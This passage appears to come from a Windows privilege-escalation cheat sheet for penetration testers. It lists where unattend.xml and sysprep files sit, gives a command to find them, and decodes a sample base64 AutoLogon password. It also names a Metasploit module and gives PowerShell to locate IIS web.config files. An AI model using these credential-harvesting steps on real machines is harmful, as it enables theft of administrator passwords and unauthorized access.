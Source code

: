 
#### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.

Example content

```powershell
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```

Unattend credentials are stored in base64 and can be decoded manually with base64.

```powershell
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo="  | base64 -d 
SecretSecurePassword1234*
```

The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

#### IIS Web config

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

